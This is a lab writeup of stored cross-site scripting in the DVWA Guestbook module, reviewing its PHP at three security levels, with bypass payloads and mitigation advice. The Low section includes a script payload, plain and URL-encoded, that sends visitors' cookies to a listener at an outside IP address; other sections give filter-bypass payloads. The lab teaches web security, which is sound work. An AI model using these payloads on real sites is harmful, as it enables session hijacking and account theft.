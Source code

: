 
# 📘 DVWA – Stored XSS (Guestbook) Writeup

This document provides a full analysis of the **Stored Cross-Site Scripting (XSS)** vulnerability in the DVWA "Guestbook" module across Low, Medium, and High security levels.

---

## 🔍 Vulnerable Code Review

### 🔓 Low Security

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );

$message = stripslashes( $message );
$message = mysqli_real_escape_string( $conn, $message );
$name = mysqli_real_escape_string( $conn, $name );

$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```

- ❌ **No output encoding**
- ❌ **No HTML filtering**
- ❌ **Stored raw in DB, rendered unsanitized**

### ✅ Exploitation

Payload:
```html
<script>alert("Stored XSS")</script>
```
Will be stored in the database and **executed every time** someone views the guestbook.

you can also use a listener check for incoming requests in the terminal when someone clicks on the stored XSS

```
payload: <script>new Image().src='http://192.168.1.7:1339/bogus.php?output='+document.cookie;</script>
encoded payload: <script>new+Image().src%3d'http%3a//192.168.1.7%3a1339/bogus.php%3foutput%3d'%2bdocument.cookie%3b</script>
```

---

### 🟡 Medium Security

```php
$message = strip_tags( addslashes( $message ) );
$message = mysqli_real_escape_string( $conn, $message );
$message = htmlspecialchars( $message );
$name = str_replace( '<script>', '', $name );
```

- ✅ Some tag filtering with `strip_tags()`
- ⚠️ Only removes `<script>` exactly
- ❌ Allows event handlers like `onmouseover`
- ❌ Still reflects in guestbook

### 🧪 Bypass Example

Payload:
```html
<img src=x onerror=alert('XSS')>
```

This bypasses the `<script>` filter entirely and is stored.

---

### 🔐 High Security

```php
$message = strip_tags( addslashes( $message ) );
$message = mysqli_real_escape_string( $conn, $message );
$message = htmlspecialchars( $message );

$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

- ✅ Filters `<script>` using regex
- ✅ Applies `htmlspecialchars()` for encoding
- ⚠️ Regex bypasses possible with malformed tag sequences
- ✅ Safer but still imperfect

### ⚔️ Advanced Bypass (Theoretical)

If the HTML rendering is weak or double encoded elsewhere, payloads using:
```html
<svg onload=alert(1)>
```
might still slip through, depending on output context.

---

## 🔍 Vulnerability Summary

| Security Level | Issues Present | Can Store Payload? | Executable in Browser? |
|----------------|----------------|---------------------|-------------------------|
| Low            | No filtering, no encoding | ✅ Yes | ✅ Yes |
| Medium         | Poor filtering, tag-specific | ✅ Yes | ✅ With tag bypass |
| High           | Regex/script filtering, encoded | ✅ Yes | ⚠️ Depends on context |

---

## 🔐 Mitigation Recommendations

| ❌ Vulnerability | ✅ Secure Approach |
|------------------|--------------------|
| No encoding      | Use `htmlspecialchars()` or templating engine |
| Bad filtering    | Use CSP, sanitize on input and encode on output |
| Regex filtering  | Use vetted libraries like DOMPurify (JS) or OWASP Java Encoder |

---

## 📌 Key Lessons

- **Stored XSS** is dangerous due to **persistent payloads**.
- Input sanitization is not enough: **encode on output**.
- **Filter evasion** is easy with modern obfuscation techniques.
- Defense-in-depth: **combine validation, encoding, and CSP**.

